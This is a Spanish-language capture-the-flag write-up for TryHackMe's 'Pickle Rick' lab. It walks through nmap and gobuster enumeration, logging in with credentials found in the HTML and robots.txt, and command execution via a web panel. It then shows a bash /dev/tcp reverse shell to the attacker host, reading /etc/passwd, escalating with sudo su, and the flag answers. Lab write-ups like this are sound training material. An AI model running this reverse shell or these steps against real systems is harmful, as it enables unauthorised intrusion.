# Write-up: 

- **Nombre de la máquina:** `Pickle Rick` 
- **Plataforma:** `TryHackMe` 
- **IP:** `10.10.190.178` 
- **SO:** `Linux` 
- **Dificultad:** `Easy`

---

## 1. RECONOCIMIENTO

El objetivo de esta fase es identificar los puntos de entrada y servicios expuestos en la máquina víctima.

#### 1.1. Verificación de Conectividad

Se lanza un `ping` para confirmar que la máquina está activa y obtener el TTL lo que puede darnos una primera pista sobre el sistema operativo.
```
	ping 10.10.243.209
```
Nos devuelve conectividad y un TTL=63 por lo que estamos ante una máquina Linux.




#### 1.2. Escaneo de Puertos

Se realiza un escaneo con **Nmap** para descubrir puertos abiertos, los servicios que corren en ellos y sus versiones.


```
sudo nmap -p- -sV -sC -sS --min-rate 5000 --open -n -Pn 10.10.243.209 -oN port_scan.txt
```

**Puertos Descubiertos:**

| Puerto | Servicio | Versión       | Notas                    |
| ------ | -------- | ------------- | ------------------------ |
| 22     | ssh      | OpenSSH 8.2   | Necesitamos credenciales |
| 80     | http     | Apache 2.4.41 | Iniciaremos por aquí     |



Normalmente el acceso por el puerto 22 al servicio ssh requiere de credenciales. Ya sea usuario y contraseña o clave rsa. En este caso carecemos de información al respecto así que lo más productivo es explorar el puerto :80

---

## 2. ENUMERACIÓN

Una vez identificados los servicios, se procede a investigarlos en profundidad en busca de vulnerabilidades o información útil.

### Puerto 80 ( HTTP)

#### Enumeración Manual:

- **Navegación web:** Se visita el sitio en `http://10.10.243.209.
    Tenemos esta página donde Rick nos pide que encontremos 3 ingredientes para elaborar una poción y dejar de ser un pepinillo. Serán nuestras flags.
  
    
   
- **Análisis del código fuente:** Se revisa el HTML en busca de comentarios, rutas o scripts ocultos.

    
    Nos dan el nombre de un usuario `R1ckRul3s`:
	
    
    
- **Archivos comunes:** Se buscan manualmente archivos y directorios comunes:
	-  `/robots.txt`--> V`Wubbalubbadubdub`
 	-  `/sitemap.xml`--> X
  	-  `/login`--> X
  	-  `/admin`--> X
  	-  `/panel`--> X
  	-  `/user`--> X
  	-  `/panel`--> X
  	-  `backup`--> X
  	-  `uploads`--> x
  	-  `/assets` --> V
  	-  `test, etc.`--> X
  
    
- Encontramos información en uno de los directorios :
	- `/robots.txt`--> `Wubbalubbadubdub`. Que de primeras no se si es algo relevante.
 	- `/assets`-->  donde vemos un Directory listing.
 
    
       
#### Enumeración Automática:

- Lanzamos la herramienta `whatweb` para que nos de información sobre la aplicación web.  
```
whatweb 10.10.243.209
```



Vemos versión de Apache 2.4.41.


- Lanzamos la herramienta de enumeración `gobuster` para buscar directorios ocultos y extensiones .php,.txt y .html 


```
gobuster dir -u http://10.10.190.178/ -w /urs/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,txt,html -k
```



**Hallazgos:**

- Vemos rutas llamativas que no hayamos encontrado en la enumeración manual:
    - `/login.php`--> podemos ver un panel de login
     
  
#### Comprobación de credenciales:

  Utilizamos las potenciales credenciales para logearnos:
-  Username : `R1ckRul3s`
- Password: `Wubbalubbadubdub`

Las credenciales son correctas. Nos dan acceso a lo que parece un **panel de comandos.** Y otras seccionales (potions) a las que no tenemos acceso como `R1ckRul3s` 

#### Comprobación de  vulnerabilidad RCE

1. Ejecutamos el comando `whoami` y nos devuelve que usuarios somos. 
2. Demuestra que tenemos una vulnerabilidad de `ejecución remota de comandos` `RCE`



---

## 3. EXPLOTACIÓN

### 3.1 Acceso inicial:

1. Levantamos un puerto de escucha con `nectcat` en nuestra terminal por ejemplo el 5555:

```
sudo nc -nvlp 5555
```


2. Generamos un código malicioso con revershell y lo encapsulamos con `-c`  : 

   


```
bash -c 'bash -i >& /dev/tcp/10.9.3.10/5555 0>&1'
```

3. Teniendo el puerto en escucha, ejecutamos el código en la terminal. Dándonos el acceso inicial en nuestra Kali.  
   
   
  
  

### Estabilización de la TTY:
Buscamos una shell que pueda interactuar de forma correcta en la terminal. 


```
script /dev/null -c bash
```

Enviamos segundo plano :
    Control +Z


```
stty raw -echo; fg
```
```
reset xterm
```
```
export SHELL=bash
```
```
export TERM=xterm
```




---

## 4. ESCALADA DE PRIVILEGIOS

Una vez dentro, el objetivo es elevar los privilegios del usuario actual al de `root`.

### 4.1. Enumeración Interna

Se realizan comprobaciones básicas y se buscan posibles vectores de escalada.

#### Comprobaciones del sistema:

¿Qué usuario somos?
`whoami`




¿A qué grupo pertenezco?
`id` 



¿Qué usuario hay en el sistema?
`cd home` y `ls`

 
 


 
 ¿Qué usuario tienen una shell asignada?  `cat /etc/passwd | grep sh`



Revisamos los directorios de los usuarios:

`www-data` :



`ubuntu`: 




`rick`:



- **Hallazgos**:
  
	- En el directorio de `www-data` tenemos el primer ingrediente:  `mr. meeseek kair`
	- En el directorio de `rick` tenemos una de las banderas, el segundo ingrediente. 
    `1 jerry tear`
    
Una buena práctica sería revisar los comandos utilizados por los usuarios en el `history`
#### Búsqueda del Vector de Escalada:


- **Permisos Sudo:** ¿Qué comandos podemos ejecutar como otro usuario (o `root`)?
    ```
    sudo -l
    ```
    

    
    Vemos que como usuario `www-data` podemos ejecutar como sudo todos los comandos sin contraseña.
    


### 4.2. Explotación y Escalada a Root


Por este motivo utilizamos simplemente el comando :
```
	sudo su
```



Y nos convertimos en usuarios `root`

**Verificación:**

```
whoami
```



SOMOS ROOT 🚀


---

## 5. CAPTURA DE BANDERAS (FLAGS)

Con acceso privilegiado, se buscan y leen las banderas.

#### Bandera de www-data ()


La había visto durante la enumeración del usuario por defecto `www-data`

- **Ubicación:** `/var/www/html/Sup3rS3cretPickl3Ingred.txt`
    
- **Contenido:** `mr. meeseek hair`


#### Bandera de Rick (second ingredients.txt)

La había visto durante la enumeración del usuario `Rick`
- **Ubicación:** `/rick/second ingredients.txt`
    
- **Contenido:** `1 jerry tear`

    


#### Bandera de Root (3rd.txt)


```
find  / -name root.txt 2>/dev/null
```

- **Ubicación:** ` /root/3rd.txt`
    
- **Contenido:** `fleeb juice`



